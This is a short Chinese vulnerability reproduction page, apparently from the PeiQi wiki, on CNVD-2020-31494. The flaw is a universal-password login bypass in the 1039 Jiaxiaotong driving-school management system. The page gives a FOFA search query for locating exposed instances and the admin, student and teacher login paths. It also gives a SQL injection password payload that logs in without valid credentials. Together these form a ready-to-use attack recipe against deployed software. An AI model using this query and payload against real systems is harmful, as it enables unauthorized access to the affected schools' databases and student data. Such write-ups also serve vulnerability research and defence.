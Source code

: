 ```yaml
---
title: 1039家校通 万能密码绕过 CNVD-2020-31494
date: 2021-09-23 23:55:51
tags: PeiQi文库
categories:
 - Web应用漏洞
 - 1039家校通
---
```


# 1039家校通 万能密码绕过 CNVD-2020-31494

## 漏洞描述

北京1039科技发展有限公司是一家专注驾校管理系统、驾校移动办公系统、驾校管理软件、驾校招生小程序开发等,为驾校提供无死角的驾校管理系统解决方案。

北京1039科技发展有限公司驾校管理系统存在万能密码绕过漏洞，攻击者可利用该漏洞获取数据库信息。

## 漏洞影响

> [!NOTE]
>
> 1039家校通 v1.0 - v6.0

## FOFA

> [!NOTE]
>
> title="学员登录_1039家校通"

## 漏洞复现

管理员登录接口为

```
/admin/Product/Comstye.aspx
/Student/StudentLogin.aspx
/Teacher/Index.aspx
```

![](/img/20210924015609020286.png)

账号密码为如下即可登录

```
user:peiqi
pass:' or ''='
```

![](/img/20210924015609378347.png)



